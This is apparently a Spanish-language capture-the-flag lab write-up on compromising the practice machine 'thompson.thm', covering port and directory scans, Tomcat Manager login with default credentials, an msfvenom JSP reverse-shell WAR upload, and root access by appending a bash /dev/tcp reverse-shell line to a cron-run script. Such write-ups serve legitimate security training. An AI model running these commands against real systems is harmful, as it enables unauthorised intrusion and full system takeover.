 ## 1. Introducción

Este informe documenta el proceso de análisis de seguridad realizado sobre la máquina objetivo "thompson.thm" (IP: 10.10.211.129). El objetivo es evaluar posibles vulnerabilidades explotables en sus servicios, identificar configuraciones erróneas y, en caso de ser posible, escalar privilegios dentro del sistema.

## 2. Escaneo Inicial

### 2.1 Herramientas Utilizadas

- **Nmap**: Se ejecutó un escaneo de puertos y detección de versiones con los flags `-A -sT`.
- **Gobuster**: Se utilizó para enumerar directorios y archivos accesibles en el servidor web.

### 2.2 Comandos Ejecutados y Resultados

#### 2.2.1 Escaneo con Nmap

```bash
nmap -A -sT thompson.thm -oN resultado.txt
```

**Resultados Relevantes:**

- **22/tcp (SSH)**: OpenSSH 7.2p2 (Ubuntu Linux; protocolo 2.0)
- **8009/tcp (AJP13)**: Apache JServ Protocol v1.3
- **8080/tcp (HTTP)**: Apache Tomcat 8.5.5

#### 2.2.2 Enumeración con Gobuster

```bash
gobuster dir -u http://thompson.thm:8080 -w /usr/share/seclists/Discovery/Web-Content/common.txt -x .php,.js -t 50
```

**Resultados Relevantes:**

- `/manager` (requiere autenticación)
- `/host-manager` (requiere autenticación)
- `/docs` (posiblemente documentación accesible)
- `/examples` (puede contener ejemplos vulnerables de Tomcat)
- `/reverse.php` y `/shell/` (indican presencia de scripts ejecutables)

## 3. Enumeración

- **SSH (22/tcp)**: Se ejecutará un análisis de credenciales por fuerza bruta y verificación de autenticación basada en clave pública.
- **Apache JServ Protocol (8009/tcp)**: Se investigará la posibilidad de explotación mediante el abuso del protocolo AJP.
- **Apache Tomcat (8080/tcp)**: Se verificarán credenciales por defecto en el panel de administración y posibles vulnerabilidades conocidas de la versión 8.5.5.
- **Gobuster Discovery**:
    - Se encontraron directorios sensibles: `/manager` y `/host-manager`, ambos requieren autenticación.
    - Se observó que estos servicios pueden estar utilizando credenciales por defecto.

## 4. Explotación

Se identificaron posibles credenciales por defecto en el archivo de configuración de Tomcat (`tomcat-users.xml`).

- Usuario: `tomcat`
- Contraseña: `s3cret`
- Permiso: `manager-gui`

![](tomcat.png)

### 4.1 Carga de WebShell

- Se utilizó `msfvenom` para generar un archivo `.war` con una reverse shell JSP:
    
    ```bash
    msfvenom -p java/jsp_shell_reverse_tcp LHOST=TU_IP LPORT=4444 -f war > shell.war
    ```
    
- Se inició un listener en la máquina atacante:
    
    ```bash
    nc -lvnp 4444
    ```
    
- Se subió el archivo `shell.war` a través de Tomcat Manager.
- Se accedió a `http://thompson.thm:8080/shell/` para ejecutar la shell y obtener acceso remoto.

## 5. Escalada de Privilegios

Tras obtener acceso inicial, se identificó al usuario `jack` y se recuperó la primera bandera ubicada en `/home/jack/user.txt`.

### 5.1 Identificación de un archivo con permisos de root

Se encontró un archivo sospechoso llamado `id.sh` en el sistema. Su contenido era el siguiente:

```bash
cat id.sh 
#!/bin/bash
echo 'bash -i >& /dev/tcp/10.6.17.22/4445 0>&1' >> id.sh
```

Este archivo tenía permisos de ejecución como root y se ejecutaba automáticamente mediante un **cron job**, lo que permitía escalar privilegios mediante una reverse shell con privilegios elevados.

### 5.2 Ejecución de la reverse shell con privilegios de root

- Se configuró un listener adicional:
    
    ```bash
    nc -lvnp 4445
    ```
    
- Se esperó a que el **cron job** ejecutara `id.sh`, estableciendo así la conexión reversa como root.
- Una vez con privilegios de root, se recuperó la segunda bandera ubicada en `/root/root.txt`.

## 6. Hallazgos Clave

- **Acceso a Tomcat Manager y Host-Manager**:
    - Se encontraron directorios protegidos con credenciales por defecto.
    - Se logró la carga de una webshell para obtener acceso remoto al sistema.
- **Escalada de Privilegios Exitosa**:
    - Se explotó un archivo `id.sh` ejecutado automáticamente por `cron` con permisos de root para obtener acceso total al sistema.

## 8. Conclusión
Se ha logrado comprometer la máquina mediante la explotación de credenciales por defecto en Apache Tomcat, la carga de una webshell JSP y la escalada de privilegios a través de un archivo mal configurado con permisos de root. La explotación exitosa permitió obtener acceso total al sistema y recuperar ambas banderas (`user.txt` y `root.txt`).